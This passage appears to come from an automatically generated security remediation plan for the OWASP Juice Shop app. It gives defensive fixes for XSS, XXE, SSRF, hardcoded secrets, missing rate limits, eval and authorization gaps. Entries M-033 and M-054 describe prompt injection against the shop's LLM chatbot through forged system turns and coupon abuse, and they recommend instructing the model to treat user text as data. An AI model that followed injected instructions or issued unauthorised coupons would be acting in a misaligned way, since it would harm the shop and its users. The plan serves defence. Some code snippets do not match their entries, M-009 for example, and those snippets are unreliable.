3. Keep the backend CSP (Helmet) but do not rely on it as the sole control - fix the sink.

```javascript
// template — escaped, no bypass
<span id="searchValue">{{ searchValue }}</span>
// component
this.searchValue = queryParam  // plain string, Angular escapes on render
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html`

---

<a id="m-033"></a>
#### M-033 — Enforce coupon and tool policy in code rather than in system-prompt prose, and isolate untrusted user turns

**Addresses:**

- 🟠 [F-019](#f-019) — Prompt Injection (`routes/chat.ts:189`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/chat.ts:189`

**How:** Move every safety-critical rule out of the natural-language system prompt and into code. For example, do not let the model decide coupon eligibility - gate the `generateCoupon` tool's `execute()` on server-verified order state (see threat llm-chat-interface-002). Wrap/delimit untrusted user content and instruct the model to treat it as data, not instructions; reject or strip control phrases is insufficient alone but reduces casual injection. Add an input length cap and a server-side allowlist of message roles so an attacker cannot inject a forged `system`/`assistant` turn via the messages array. Add an output/tool-call validation layer (see llm-chat-interface-002) so that even a fully hijacked model cannot exceed policy limits.

1. Move every safety-critical rule out of the natural-language system prompt and into code. For example, do not let the model decide coupon eligibility - gate the `generateCoupon` tool's `execute()` on server-verified order state (see threat llm-chat-interface-002).
2. Wrap/delimit untrusted user content and instruct the model to treat it as data, not instructions; reject or strip control phrases is insufficient alone but reduces casual injection.
3. Add an input length cap and a server-side allowlist of message roles so an attacker cannot inject a forged `system`/`assistant` turn via the messages array.
4. Add an output/tool-call validation layer (see llm-chat-interface-002) so that even a fully hijacked model cannot exceed policy limits.

```javascript
// reject client-supplied system/assistant turns; only 'user' content is trusted from the wire
const messages = (req.body?.messages ?? []).filter((m: any) => m.role === 'user').slice(-20)
if (messages.some((m: any) => typeof m.content !== 'string' || m.content.length > 4000)) {
  return res.status(400).json({ error: 'invalid message' })
}
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/LLM_Prompt_Injection_Prevention_Cheat_Sheet.html`

---

<a id="m-034"></a>
#### M-034 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-020](#f-020) — Hardcoded HMAC key guards knowledge-based password reset (`lib/insecurity.ts:44`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:44`

**How:** Move the HMAC key out of source into an environment variable / secret store and rotate the exposed value. Replace security-question reset with a single-use, time-limited reset token delivered to the registered email address (RFC-style opaque token, hashed at rest). Rate-limit and lock the reset endpoint per account identity, not per request header, to blunt answer guessing. If security questions are retained as a secondary factor, store answers with a per-user-salted KDF rather than a global HMAC.

1. Move the HMAC key out of source into an environment variable / secret store and rotate the exposed value.
2. Replace security-question reset with a single-use, time-limited reset token delivered to the registered email address (RFC-style opaque token, hashed at rest).
3. Rate-limit and lock the reset endpoint per account identity, not per request header, to blunt answer guessing.
4. If security questions are retained as a secondary factor, store answers with a per-user-salted KDF rather than a global HMAC.

```javascript
const token = crypto.randomBytes(32).toString('hex')
await PasswordResetModel.create({ userId, tokenHash: sha256(token), expiresAt: Date.now() + 15*60_000 })
// email the raw token; verify by hashing the presented token and matching an unexpired row
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html`

---

<a id="m-035"></a>
#### M-035 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🟠 [F-021](#f-021) — XXE: XML parsed with external entities enabled (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:** Set noent: false and disable network/file loading (nonet: true, noblanks only) when calling libxml.`parseXml` on untrusted input. Reject DOCTYPE declarations outright for user-uploaded XML. Do not echo parsed XML content back in error messages.

1. Set noent: false and disable network/file loading (nonet: true, noblanks only) when calling libxml.`parseXml` on untrusted input.
2. Reject DOCTYPE declarations outright for user-uploaded XML.
3. Do not echo parsed XML content back in error messages.

```javascript
libxml.parseXml(data, { noent: false, nonet: true, dtdload: false })
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html`

---

<a id="m-036"></a>
#### M-036 — Validate and allowlist outbound request targets

**Addresses:**

- 🟠 [F-022](#f-022) — SSRF (`routes/profileImageUrlUpload.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:** Reject any URL whose scheme is not https and whose resolved host is in a private, loopback, or link-local range (RFC 1918, 127.0.0.0/8, 169.254.0.0/16, ::1, fc00::/7). Resolve DNS first and validate the resolved IP, not just the hostname, to defeat DNS rebinding; pin the connection to the validated IP. Cap response size and content-type to image/* and never persist the raw URL as the profile image on failure.

1. Reject any URL whose scheme is not https and whose resolved host is in a private, loopback, or link-local range (RFC 1918, 127.0.0.0/8, 169.254.0.0/16, ::1, fc00::/7).
2. Resolve DNS first and validate the resolved IP, not just the hostname, to defeat DNS rebinding; pin the connection to the validated IP.
3. Cap response size and content-type to image/* and never persist the raw URL as the profile image on failure.

```javascript
const u = new URL(url)
if (u.protocol !== 'https:') throw new Error('scheme')
const { address } = await dns.promises.lookup(u.hostname)
if (ipaddr.parse(address).range() !== 'unicast') throw new Error('private host')
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html`

---

<a id="m-038"></a>
#### M-038 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-029](#f-029) — Security answers HMAC'd with a hardcoded static (`models/securityAnswer.ts:48`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/securityAnswer.ts:48`

**How:** Replace `security.hmac` in the SecurityAnswer setter (`models/securityAnswer.ts:48`) with a salted adaptive hash (bcrypt/argon2id) so each record carries a unique salt and the digest is not precomputable. Remove the hardcoded key literal from `lib/insecurity.ts:44`; if a keyed MAC is still required elsewhere, load the key from an environment-provided secret, not source. Normalize answers (lowercase, trim) before hashing to keep verification stable without weakening the hash.

1. Replace `security.hmac` in the SecurityAnswer setter (`models/securityAnswer.ts:48`) with a salted adaptive hash (bcrypt/argon2id) so each record carries a unique salt and the digest is not precomputable.
2. Remove the hardcoded key literal from `lib/insecurity.ts:44`; if a keyed MAC is still required elsewhere, load the key from an environment-provided secret, not source.
3. Normalize answers (lowercase, trim) before hashing to keep verification stable without weakening the hash.

```javascript
import bcrypt from 'bcryptjs'
set (answer: string) {
  this.setDataValue('answer', bcrypt.hashSync(answer.trim().toLowerCase(), 12))
}
```

**Reference:** CWE-798

---

<a id="m-041"></a>
#### M-041 — Key reset-password rate limiting on the trusted socket IP, not X-Forwarded-For

**Addresses:**

- 🔴 [F-032](#f-032) — Reset-password rate limit keyed on spoofable forwarding header (`server.ts:346`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:346`

**How:** Remove the X-Forwarded-For preference; key the limiter on `req.ip` derived from a correctly configured trust-proxy hop count, not the raw header. Set `app.set('trust proxy', <known proxy count>)` instead of enabling it unconditionally so only the real upstream proxy's forwarded value is honored. Additionally throttle per target account email so header rotation cannot dodge per-victim limits.

1. Remove the X-Forwarded-For preference; key the limiter on `req.ip` derived from a correctly configured trust-proxy hop count, not the raw header.
2. Set `app.set('trust proxy', <known proxy count>)` instead of enabling it unconditionally so only the real upstream proxy's forwarded value is honored.
3. Additionally throttle per target account email so header rotation cannot dodge per-victim limits.

```javascript
rateLimit({
  windowMs: 5*60_000, max: 10,
  keyGenerator: (req) => `${req.ip}:${req.body?.email ?? ''}`
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html`

---

<a id="m-042"></a>
#### M-042 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-033](#f-033) — No rate limiting on login endpoint permits credential (`routes/login.ts:32`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/login.ts:32`

**How:** Wrap `/rest/user/login` with express-rate-limit keyed on a combination of source IP and submitted email, with a low max (e.g. 5 attempts / 15 min) and exponential backoff. Add progressive account lockout / CAPTCHA after repeated failures for the same email. Emit a structured failed-login audit event (see auth-007) so brute-force bursts are detectable.

1. Wrap `/rest/user/login` with express-rate-limit keyed on a combination of source IP and submitted email, with a low max (e.g. 5 attempts / 15 min) and exponential backoff.
2. Add progressive account lockout / CAPTCHA after repeated failures for the same email.
3. Emit a structured failed-login audit event (see auth-007) so brute-force bursts are detectable.

```javascript
app.post('/rest/user/login',
  rateLimit({ windowMs: 15*60_000, max: 5,
    keyGenerator: (req) => `${req.ip}:${req.body?.email ?? ''}` }),
  login())
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html`

---

<a id="m-043"></a>
#### M-043 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-034](#f-034) — No rate limiting or lockout on POST `/rest/user/login` (`server.ts:595`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:346`

**How:** Wrap `/rest/user/login` with express-rate-limit (e.g. `windowMs` 15m, max 10 per IP) and a per-account failure counter that triggers temporary lockout. Key the limiter on the connection IP (`req.ip` with a correctly configured trust proxy hop count), not on raw X-Forwarded-For. Apply the same trusted-key fix to the existing reset-password limiter at `server.ts:346`.

1. Wrap `/rest/user/login` with express-rate-limit (e.g. `windowMs` 15m, max 10 per IP) and a per-account failure counter that triggers temporary lockout.
2. Key the limiter on the connection IP (`req.ip` with a correctly configured trust proxy hop count), not on raw X-Forwarded-For.
3. Apply the same trusted-key fix to the existing reset-password limiter at `server.ts:346`.

```javascript
app.use('/rest/user/login', rateLimit({
  windowMs: 15 * 60 * 1000, max: 10,
  keyGenerator: (req) => req.ip
}))
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html`

---

<a id="m-044"></a>
#### M-044 — Bound and validate verify-challenge input length and harden the SVG-injection regex against backtracking

**Addresses:**

- 🟠 [F-035](#f-035) — Catastrophic-backtracking regex on client data (`registerWebsocketEvents.ts:46`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:46`

**How:** Reject `data` that is not a string or exceeds a small max length (e.g. 2048 chars) before any regex evaluation. Rewrite the regex to remove the leading/trailing `.*` and anchor the match, or replace with explicit substring/`URL` parsing to eliminate exponential backtracking. Add per-socket rate limiting on the `verify*` events so repeated payloads cannot be replayed to amplify load.

1. Reject `data` that is not a string or exceeds a small max length (e.g. 2048 chars) before any regex evaluation.
2. Rewrite the regex to remove the leading/trailing `.*` and anchor the match, or replace with explicit substring/`URL` parsing to eliminate exponential backtracking.
3. Add per-socket rate limiting on the `verify*` events so repeated payloads cannot be replayed to amplify load.

```javascript
socket.on('verifySvgInjectionChallenge', (data) => {
  if (typeof data !== 'string' || data.length > 2048) return
  // anchored, non-backtracking check ...
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Regular_Expression_DoS_Cheat_Sheet.html`

---

<a id="m-045"></a>
#### M-045 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-036](#f-036) — Web3 endpoints have no rate limiting and grow (`routes/web3Wallet.ts:16`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:31`

**How:** Apply `rateLimit({ windowMs: 5 * 60 * 1000, max: 100 })` (the same `express-rate-limit` already imported at `server.ts:31`) to `/rest/web3` before the route handlers. Bound `walletsConnected` / `addressesMinted` with a max size (or a TTL cache) and validate `walletAddress` with `ethers.isAddress()` before insertion so junk input cannot grow state. Add the address to the Set only after ownership/format validation rather than at the top of the handler (`routes/web3Wallet.ts:16`).

1. Apply `rateLimit({ windowMs: 5 * 60 * 1000, max: 100 })` (the same `express-rate-limit` already imported at `server.ts:31`) to `/rest/web3` before the route handlers.
2. Bound `walletsConnected` / `addressesMinted` with a max size (or a TTL cache) and validate `walletAddress` with `ethers.isAddress()` before insertion so junk input cannot grow state.
3. Add the address to the Set only after ownership/format validation rather than at the top of the handler (`routes/web3Wallet.ts:16`).

```javascript
app.use('/rest/web3', rateLimit({ windowMs: 5 * 60 * 1000, max: 100, validate: false }))
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html`

---

<a id="m-046"></a>
#### M-046 — Add server-side token revocation with jti deny-list and shorter access-token TTL

**Addresses:**

- 🟠 [F-037](#f-037) — No server-side token revocation; logout leaves JWT valid (`lib/insecurity.ts:72`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:72`

**How:** Include a unique jti claim in every issued token and check it against a server-side revocation store on each request; reject revoked jtis. On logout (and on password/2FA change), add the active jti to the revocation list so the token is immediately unusable. Shorten the access-token TTL (e.g. 15 min) and issue refresh tokens, narrowing the window a stolen token stays valid. Remove the silent re-registration in `updateAuthenticatedUsers()` so a token cleared at logout is not transparently re-trusted.

1. Include a unique jti claim in every issued token and check it against a server-side revocation store on each request; reject revoked jtis.
2. On logout (and on password/2FA change), add the active jti to the revocation list so the token is immediately unusable.
3. Shorten the access-token TTL (e.g. 15 min) and issue refresh tokens, narrowing the window a stolen token stays valid.
4. Remove the silent re-registration in `updateAuthenticatedUsers()` so a token cleared at logout is not transparently re-trusted.

```javascript
export const authorize = (user = {}) =>
  jwt.sign({ ...user, jti: crypto.randomUUID() }, privateKey,
    { expiresIn: '15m', algorithm: 'RS256' })
// on each request: if (revokedJtis.has(decoded.jti)) return res.sendStatus(401)
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html`

---

<a id="m-047"></a>
#### M-047 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-038](#f-038) — Server-side eval of user-controlled username (`routes/userProfile.ts:61`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/userProfile.ts:61`

**How:** Delete the `eval(code)` branch in `getUserProfile()`; never evaluate user input as code. Render the username through the Pug template's automatic escaping (interpolation with `=`/`#{}` escaping) instead of string-replacing it into the template body. If templating from user input is required, switch to a logic-less template and HTML-encode the value.

1. Delete the `eval(code)` branch in `getUserProfile()`; never evaluate user input as code.
2. Render the username through the Pug template's automatic escaping (interpolation with `=`/`#{}` escaping) instead of string-replacing it into the template body.
3. If templating from user input is required, switch to a logic-less template and HTML-encode the value.

```javascript
// remove eval entirely; let Pug escape it
template = template.replace(/_username_/g, entities.encode(user.username))
```

**Reference:** CWE-94

---

<a id="m-048"></a>
#### M-048 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-039](#f-039) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-049"></a>
#### M-049 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-040](#f-040) — Authenticated GET `/api/Users` exposes full user table without (`server.ts:362`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:362`

**How:** Introduce an `isAdmin()` middleware that decodes the JWT and verifies `decodedToken`.data.role === 'admin', and apply it to `GET /api/Users`. Exclude sensitive columns (password, `totpSecret`) from all serialized responses via a Sequelize `defaultScope` { attributes: `{ exclude: ['password','totpSecret'] }` }. Audit every `/api/`* route for missing server-side authorization rather than relying on client guards.

1. Introduce an `isAdmin()` middleware that decodes the JWT and verifies `decodedToken`.data.role === 'admin', and apply it to `GET /api/Users`.
2. Exclude sensitive columns (password, `totpSecret`) from all serialized responses via a Sequelize `defaultScope` { attributes: `{ exclude: ['password','totpSecret'] }` }.
3. Audit every `/api/`* route for missing server-side authorization rather than relying on client guards.

```javascript
app.get('/api/Users', security.isAuthorized(), security.isAdmin())
// models/user.ts
defaultScope: { attributes: { exclude: ['password', 'totpSecret'] } }
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html`

---

<a id="m-050"></a>
#### M-050 — Add a least-privilege top-level permissions block to every workflow

**Addresses:**

- 🟠 [F-041](#f-041) — Missing Explicit Workflow Permissions (`ci.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:** Add `permissions: {}` (or `contents: read`) at the top of every workflow under `.github/workflows/`, then grant only the specific scopes each job needs (e.g. `contents: write` for release, `packages: write` for the docker push). Set the repository/org default `GITHUB_TOKEN` permissions to read-only under Settings → Actions → Workflow permissions as defense in depth. Audit the three deploy jobs (`ci.yml` docker/heroku, `release.yml` docker) and pin their job-level permissions explicitly.

1. Add `permissions: {}` (or `contents: read`) at the top of every workflow under `.github/workflows/`, then grant only the specific scopes each job needs (e.g. `contents: write` for release, `packages: write` for the docker push).
2. Set the repository/org default `GITHUB_TOKEN` permissions to read-only under Settings → Actions → Workflow permissions as defense in depth.
3. Audit the three deploy jobs (`ci.yml` docker/heroku, `release.yml` docker) and pin their job-level permissions explicitly.

```javascript
# top of ci.yml
permissions:
  contents: read

jobs:
  docker:
    permissions:
      packages: write
```

**Reference:** https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token

---

<a id="m-051"></a>
#### M-051 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-042](#f-042) — Install Scripts Execute on Untrusted PR (`ci.yml:161`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `ci.yml:167`

**How:** Append `--ignore-scripts` to the `npm install` (or `npm ci`) command in every test/build job in `.github/workflows/ci.yml`, matching the existing lint job at line 36. In `Dockerfile:5` remove `--unsafe-perm` and add `--ignore-scripts`, running any required build step explicitly and not as root. Move secret-bearing steps (`ALCHEMY_API_KEY` at `ci.yml:167`) into jobs that never run an unscoped install of fork-controlled manifests, or gate them so they never execute for `pull_request` events from forks.

1. Append `--ignore-scripts` to the `npm install` (or `npm ci`) command in every test/build job in `.github/workflows/ci.yml`, matching the existing lint job at line 36.
2. In `Dockerfile:5` remove `--unsafe-perm` and add `--ignore-scripts`, running any required build step explicitly and not as root.
3. Move secret-bearing steps (`ALCHEMY_API_KEY` at `ci.yml:167`) into jobs that never run an unscoped install of fork-controlled manifests, or gate them so they never execute for `pull_request` events from forks.

```javascript
# Dockerfile
-RUN npm install --omit=dev --unsafe-perm
+RUN npm ci --omit=dev --ignore-scripts
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/NPM_Security_Cheat_Sheet.html`

---

<a id="m-052"></a>
#### M-052 — Make `User.role` non-mass-assignable and authorize role changes in a model hook

**Addresses:**

- 🔴 [F-043](#f-043) — `User.role` is a mass-assignable column with only isIn (`models/user.ts:80`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/user.ts:80`

**How:** Never spread `req.body` directly into UserModel.create/update; explicitly pick allowed fields and exclude role from user-facing registration and profile-update paths. Add a `beforeSave`/`beforeUpdate` hook on the User model that rejects any role transition unless an authorized-actor flag set by server-side admin logic is present, so the data tier defends in depth even if a route regresses. Default role to 'customer' on create and require a dedicated, separately-authorized admin endpoint for elevation.

1. Never spread `req.body` directly into UserModel.create/update; explicitly pick allowed fields and exclude role from user-facing registration and profile-update paths.
2. Add a `beforeSave`/`beforeUpdate` hook on the User model that rejects any role transition unless an authorized-actor flag set by server-side admin logic is present, so the data tier defends in depth even if a route regresses.
3. Default role to 'customer' on create and require a dedicated, separately-authorized admin endpoint for elevation.

```javascript
User.addHook('beforeSave', (user) => {
  if (user.changed('role') && !user.getDataValue('_roleChangeAuthorized')) {
    throw new Error('Unauthorized role change')
  }
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html`

---

<a id="m-053"></a>
#### M-053 — Enforce admin/accounting authorization server-side on every privileged endpoint

**Addresses:**

- 🟠 [F-044](#f-044) — Admin authorization decided client-side from unverified JWT (`app.guard.ts:57`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:57`

**How:** Add server-side authorization middleware that verifies the JWT signature and checks role on every `/api/.../admin` and accounting endpoint; never trust the client guard. Treat the Angular guards purely as UX (hide menu items) and document that they provide no security. Verify the token signature (not just `jwtDecode`) wherever role is consumed, including any server-side rendering paths.

1. Add server-side authorization middleware that verifies the JWT signature and checks role on every `/api/.../admin` and accounting endpoint; never trust the client guard.
2. Treat the Angular guards purely as UX (hide menu items) and document that they provide no security.
3. Verify the token signature (not just `jwtDecode`) wherever role is consumed, including any server-side rendering paths.

```javascript
// server middleware
function requireRole(role) {
  return (req, res, next) => {
    const p = jwt.verify(req.token, PUBLIC_KEY)  // signature-checked
    if (p.data?.role !== role) return res.sendStatus(403)
    next()
  }
}
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html`

---

<a id="m-054"></a>
#### M-054 — Enforce server-side authorization

**Addresses:**

- 🔴 [F-045](#f-045) — Excessive LLM Agency in Coupon Tool (`routes/chat.ts:174`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/chat.ts:174`

**How:** In `generateCoupon`'s `execute()`, independently verify eligibility server-side: confirm the authenticated user owns a damaged order with a valid `orderId` before issuing any coupon; reject otherwise. Clamp discount to the policy maximum in code: const `safeDiscount` = `Math.min`(`Math.max(discount, 0)`, 10) - never trust the model-supplied value. Require the `orderId` as a tool input and validate ownership the same way `getOrderById` does, rather than relying on the model to have followed the policy. Apply the same human-in-the-loop / server-validation pattern to any future state-changing tool; treat LLM tool calls as untrusted requests.

1. In `generateCoupon`'s `execute()`, independently verify eligibility server-side: confirm the authenticated user owns a damaged order with a valid `orderId` before issuing any coupon; reject otherwise.
2. Clamp discount to the policy maximum in code: const `safeDiscount` = `Math.min`(`Math.max(discount, 0)`, 10) - never trust the model-supplied value.
3. Require the `orderId` as a tool input and validate ownership the same way `getOrderById` does, rather than relying on the model to have followed the policy.
4. Apply the same human-in-the-loop / server-validation pattern to any future state-changing tool; treat LLM tool calls as untrusted requests.

```javascript
execute: async ({ discount }) => {
  const userId = await getUserId(req)
  if (!userId || !(await hasVerifiedDamagedOrder(userId))) {
    return { error: 'Not eligible for a coupon' }
  }
  const safeDiscount = Math.min(Math.max(discount, 0), 10)
  return { couponCode: security.generateCoupon(safeDiscount), discount: safeDiscount }
}
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/LLM_Prompt_Injection_Prevention_Cheat_Sheet.html`

---

<a id="m-055"></a>
#### M-055 — Gate /rest/web3 endpoints behind security.isAuthorized and scope state per authenticated user

**Addresses:**

- 🟠 [F-046](#f-046) — Web3 state-changing endpoints registered without authentication (`server.ts:642`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:642`

**How:** Add `app.use('/rest/web3', security.isAuthorized())` (or per-route guards) in `server.ts` before the web3 handler registrations at lines 642-644. Scope `addressesMinted` / `walletsConnected` to the authenticated user identity rather than process-global Sets so one caller cannot read or clear another's state. Restrict the outbound RPC-subscription trigger so it cannot be (re)initialised by arbitrary anonymous requests.

1. Add `app.use('/rest/web3', security.isAuthorized())` (or per-route guards) in `server.ts` before the web3 handler registrations at lines 642-644.
2. Scope `addressesMinted` / `walletsConnected` to the authenticated user identity rather than process-global Sets so one caller cannot read or clear another's state.
3. Restrict the outbound RPC-subscription trigger so it cannot be (re)initialised by arbitrary anonymous requests.

```javascript
app.use('/rest/web3', security.isAuthorized())
app.get('/rest/web3/nftMintListen', utils.asyncHandler(nftMintListener()))
```

**Reference:** CWE-306

---

### P3 — Next Quarter

<a id="m-008"></a>
#### M-008 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟡 [F-058](#f-058) — USER directive — Dockerfile:1

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `test/smoke/Dockerfile:1`

**How:** Add USER <non-root-uid> - Containers running as root expand container-escape blast radius.

---

<a id="m-009"></a>
#### M-009 — Sign and verify release artifacts

**Addresses:**

- 🔴 [F-059](#f-059) — Container image signing (`lock.yml:1`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/lock.yml:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance - Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-010"></a>
#### M-010 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-061](#f-061) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:1

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately - Without --ignore-scripts, any compromised dependency publisher can execute postinstall code at build time.

---

<a id="m-011"></a>
#### M-011 — Apply least-privilege permissions

**Addresses:**

- 🟡 [F-062](#f-062) — GITHUB_TOKEN scope minimization (`lock.yml:1`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/lock.yml:1`

**How:** Add `permissions: { contents: read }` at root; per-job elevate to `contents: write` only where needed - `contents: read` at workflow root forces per-job opt-in for write scopes - minimal privilege by default.

---

<a id="m-015"></a>
#### M-015 — Introduce a Backend-for-Frontend that holds tokens server-side and exposes only a cookie session to the SPA

**Addresses:**

- 🟠 [F-001](#f-001) — SPA holds API bearer credential client-side with no (`socket-io.service.ts:22`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/Services/socket-io.service.ts:22`

**How:** Stand up a BFF (e.g. an Express layer in front of the API) that performs login, stores the upstream API token server-side keyed by session, and returns only an HttpOnly Secure SameSite=Strict session cookie. Route all SPA REST and Socket\.IO traffic through the BFF origin so the browser sends the cookie automatically and never sees the API token. Move the route-guard authorization decisions server-side in the BFF; keep the Angular guards only as UX hints.

1. Stand up a BFF (e.g. an Express layer in front of the API) that performs login, stores the upstream API token server-side keyed by session, and returns only an HttpOnly Secure SameSite=Strict session cookie.
2. Route all SPA REST and Socket\.IO traffic through the BFF origin so the browser sends the cookie automatically and never sees the API token.
3. Move the route-guard authorization decisions server-side in the BFF; keep the Angular guards only as UX hints.

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html`

---

<a id="m-037"></a>
#### M-037 — Encrypt the SQLite file and apply field-level encryption to card numbers and TOTP secrets

**Addresses:**

- 🟠 [F-028](#f-028) — Sensitive columns stored unencrypted at rest (`models/card.ts:40`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `models/user.ts:113`

**How:** Adopt an encrypted SQLite engine (SQLCipher / better-sqlite3-sqlcipher) so the data/juiceshop.sqlite file is AES-256 encrypted at rest, with the key supplied from a secrets manager or KMS at process start - never committed to the repo. Apply application-layer field encryption (e.g. AES-256-GCM via Node crypto) in the Card model setter so `cardNum` is never persisted in cleartext; store only a masked last-4 for display. Encrypt `totpSecret` (`models/user.ts:113`) the same way and restrict OS file permissions on the database to the service account (chmod 600, dedicated non-root user).

1. Adopt an encrypted SQLite engine (SQLCipher / better-sqlite3-sqlcipher) so the data/juiceshop.sqlite file is AES-256 encrypted at rest, with the key supplied from a secrets manager or KMS at process start - never committed to the repo.
2. Apply application-layer field encryption (e.g. AES-256-GCM via Node crypto) in the Card model setter so `cardNum` is never persisted in cleartext; store only a masked last-4 for display.
3. Encrypt `totpSecret` (`models/user.ts:113`) the same way and restrict OS file permissions on the database to the service account (chmod 600, dedicated non-root user).

```javascript
// Card model setter
import crypto from 'crypto'
set (cardNum: string) {
  const iv = crypto.randomBytes(12)
  const c = crypto.createCipheriv('aes-256-gcm', KEY, iv)
  const enc = Buffer.concat([c.update(cardNum, 'utf8'), c.final()])
  this.setDataValue('cardNum', iv.toString('hex') + ':' + enc.toString('hex') + ':' + c.getAuthTag().toString('hex'))
}
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html`

---

<a id="m-039"></a>
#### M-039 — Replace implicit flow with Authorization Code + PKCE and keep tokens out of URLs

**Addresses:**

- 🟠 [F-030](#f-030) — OAuth access_token passed in URL fragment and query (`oauth.component.ts:28`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/oauth/oauth.component.ts:28`

**How:** Adopt OAuth 2.0 Authorization Code flow with PKCE (code_challenge/code_verifier) so no access_token ever appears in a URL. Generate and validate a 'state' parameter to defend the redirect against CSRF, and validate the id_token 'nonce' to defend against replay. Exchange the code for tokens server-side (in the BFF) and pass userinfo lookups via Authorization header, never as a query parameter.

1. Adopt OAuth 2.0 Authorization Code flow with PKCE (code_challenge/code_verifier) so no access_token ever appears in a URL.
2. Generate and validate a 'state' parameter to defend the redirect against CSRF, and validate the id_token 'nonce' to defend against replay.
3. Exchange the code for tokens server-side (in the BFF) and pass userinfo lookups via Authorization header, never as a query parameter.

```javascript
// PKCE on the client
const verifier = randomString(64)
const challenge = base64url(await sha256(verifier))
location.assign(`${authz}?response_type=code&code_challenge=${challenge}&code_challenge_method=S256&state=${state}`)
```

**Reference:** https://datatracker.ietf.org/doc/html/rfc7636

---

<a id="m-040"></a>
#### M-040 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-031](#f-031) — JWT stored in non-httpOnly localStorage (`request.interceptor.ts:16`)

